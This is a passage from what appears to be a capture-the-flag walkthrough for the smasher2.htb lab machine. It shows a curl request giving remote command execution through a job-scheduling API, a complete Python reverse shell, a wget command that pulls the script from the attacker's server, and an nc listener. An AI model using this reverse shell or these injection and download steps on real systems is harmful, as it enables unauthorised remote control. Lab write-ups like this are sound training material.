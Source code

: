 Okay, so after messing around with everything we've got thus far, I was able to get RCE, but only certain commands work -- due to a WAF. Here's what the curl command looks like so far:  
```
curl -H "Content-Type: application/json" -H "Cookie: session=eyJpZCI6eyIgYiI6Ik0yUm1Zek5rTW1Sak16VTFOemMxTm1ReE5Ua3dZalUyWVdGbVpHRmtZakpqTkRRMk5tTmpaUT09In19.XYVJAg.Lyh50FjtdwWO0DOPfwDBtWvXpNM" -d '{"schedule":"whoami"}' -X POST http://wonderfulsessionmanager.smasher2.htb/api/fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8/job
```

Time to get a shell -- we'll first need to upload a python reverse shell:
```
#!/usr/bin/python

import os
import socket
import subprocess

HOST = '<IP>' # The ip of the listener.
PORT = <PORT> # The same port as listener.

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT)) # Connect to listener.
s.send(str.encode("[*] Connection Established!")) # Send connection confirmation.

while 1: # Start loop.
    data = s.recv(1024).decode("UTF-8") # Recieve shell command.
    if data == "quit": 
        break # If it's quit, then break out and close socket.
    if data[:2] == "cd":
        os.chdir(data[3:]) # If it's cd, change directory.
    # Run shell command.
    if len(data) > 0:
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
        stdout_value = proc.stdout.read() + proc.stderr.read() # Read output.
        output_str = str(stdout_value, "UTF-8") # Format output.
        currentWD = os.getcwd() + "> " # Get current working directory.
        s.send(str.encode(currentWD + output_str)) # Send output to listener.
    
s.close() # Close socket.
```



Now to upload the reverse shell... Setup a server using python `python3 -m http.server`. With a server running, we can using wget on the target to download our .py reverse shell:
```
curl -H "Content-Type: application/json" -H "Cookie: session=<NEW SESSID HERE>" -d '{"schedule":"wget '<IP>'/'file.py'"}' -X POST http://wonderfulsessionmanager.smasher2.htb/api/fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8/job
```

Before excuting the ‘**file.py**’ script, you'll need to have a lisener up to catch the reverse shell:
```
nc -lvnp 9001
```
